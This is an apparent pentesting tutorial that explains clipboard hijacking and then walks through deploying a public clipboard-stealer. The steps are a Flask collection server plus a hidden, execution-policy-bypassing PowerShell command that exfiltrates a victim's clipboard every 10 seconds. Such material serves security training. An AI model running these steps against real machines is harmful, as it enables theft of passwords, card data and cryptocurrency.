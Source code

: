 # 📋 Clipboard Hijacking (Post)

## Introduction

Clipboard hijacking is a type of cyberattack where malicious software takes control of a device’s clipboard (the temporary storage location where copied data is held) and alters its contents. This attack is particularly common in phishing scams and cryptocurrency theft, where users copy sensitive information, such as bank account numbers or cryptocurrency wallet addresses, to paste them elsewhere. When clipboard hijacking occurs, the malicious software replaces the copied information with something the attacker controls, often leading the victim to unknowingly send money or sensitive data to the attacker.

**Here’s how clipboard hijacking typically works:**

1. **Malware Infection**: A device is infected with malware designed to monitor the clipboard.
2. **Clipboard Monitoring**: The malware continuously monitors clipboard activity for specific patterns, like long strings that resemble cryptocurrency addresses.
3. **Replacement of Clipboard Data**: When a targeted pattern is detected, the malware replaces the copied text with data provided by the attacker, such as a cryptocurrency wallet address they control.
4. **Unintended Transaction**: The victim pastes this malicious data, completing the transaction to the attacker's benefit without realizing the change.



***

## Clipboard Hijacking Practical

### Objective

The Clipboard Hijacker Payload is a simple post exploitation method for pentesting purpose. Clipboard-Hijacker Payload aims to monitor, capture, and potentially manipulate clipboard data on a target machine. This data is often used to store sensitive information like passwords, cryptocurrency wallet addresses, credit card details, or other data users copy and paste during normal activities. The payload could also modify clipboard contents to redirect actions like payments or logins to attacker-controlled entities.

This payload automatically send the captured clipboard data to your web server or webhook in every 10 seconds.

### Attacker Machine

#### Clone the Github Repo

```
git clone https://github.com/techchipnet/Clipboard-Hijacker.git
```

#### Run Flask webserver in your attacker machine using python so you need to install flask.

```
python3 -m pip install flask
```

#### Now you can run the following command for run the server

```
python3 server.py
```

{% hint style="info" %}
change your webserver's IP address in clipboardhijacker.ps1 file & run this script using following command or other method like USB rubber ducky, metasploit command execution etc.
{% endhint %}



### Victim Machine

```
powershell -NoP -NonI -W h -Exec Bypass .\clipboardhijacker.ps1
```

{% hint style="info" %}
After that your webserver will getting target machine clipboard data in every 10 sec.
{% endhint %}





***

## REFERENCES

* [https://github.com/techchipnet/Clipboard-Hijacker](https://github.com/techchipnet/Clipboard-Hijacker)
* [https://www.youtube.com/watch?v=WylviCWbz9M\&ab\_channel=TechChip](https://www.youtube.com/watch?v=WylviCWbz9M\&ab\_channel=TechChip)



